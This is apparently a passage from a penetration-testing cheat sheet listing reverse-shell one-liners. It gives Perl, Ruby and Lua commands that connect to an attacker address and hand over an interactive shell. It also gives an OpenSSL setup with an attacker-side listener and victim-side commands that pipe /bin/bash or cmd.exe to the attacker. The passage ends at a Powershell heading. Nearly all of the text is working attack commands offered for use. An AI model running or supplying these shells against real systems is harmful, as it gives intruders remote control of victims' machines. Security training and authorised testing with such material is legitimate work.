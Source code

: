 ## Perl

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Ruby

```bash
#Windows
ruby -rsocket -e 'c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## Lua

```bash
lua5.1 -e 'local host, port = "127.0.0.1", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

## OpenSSH

Attacker \(Kali\)

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response
```

Victim

```bash
#Linux
openssl s_client -quiet -connect <ATTACKER_IP>:<PORT1>|/bin/bash|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>

#Windows
openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
```

## Powershell
